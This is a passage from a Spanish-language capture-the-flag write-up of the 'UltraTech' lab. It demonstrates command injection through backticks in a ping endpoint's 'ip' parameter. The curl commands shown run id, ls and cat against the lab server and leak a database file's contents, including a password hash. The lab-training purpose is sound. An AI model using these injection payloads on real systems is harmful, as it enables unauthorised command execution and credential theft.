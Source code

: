 
2.  **Exfiltración de comandos con backticks para exfiltración**:
    Se utilizó el operador backtick (`` ` ``) para ejecutar comandos y redirigir su salida al comando `ping`, esperando que la salida se incluyera en la respuesta HTTP.

    ```bash
    curl "http://ultratech.thm:8081/ping?ip=;`id`"
    ```
    ```
    ping: groups=1002(www): Temporary failure in name resolution
    ```
    Este error indica que el comando `id` se ejecutó, pero `ping` intentó interpretar su salida (`groups=...`) como un hostname. Esto confirma la inyección, pero el output no se muestra directamente en el cuerpo de la respuesta HTTP, solo el error.

    ```bash
    curl "http://ultratech.thm:8081/ping?ip=;`ls`"
    ```
    La respuesta web del servidor fue:
    ![](anexos/ultratech%202.png)
    Aquí, el comando `ls` se ejecutó y su salida (`utech.db.sqlite`) fue interpretada por `ping` como un hostname, pero el nombre del archivo se reveló en el mensaje de error.

3.  **Exfiltración de credenciales de la base de datos `utech.db.sqlite`**:
    Al confirmar que `ls` mostraba `utech.db.sqlite` y que la inyección funcionaba ciegamente, se intentó `cat`ear el contenido de este archivo.

    ```bash
    curl "http://ultratech.thm:8081/ping?ip=;`cat utech.db.sqlite`"
    ```
    La respuesta web del servidor fue:
    ![](anexos/ultratech.png)
    La salida de `cat` incluyó la cadena `f357a0c52799563c7c7b76c1e7543a32` mezclada con un mensaje de error.
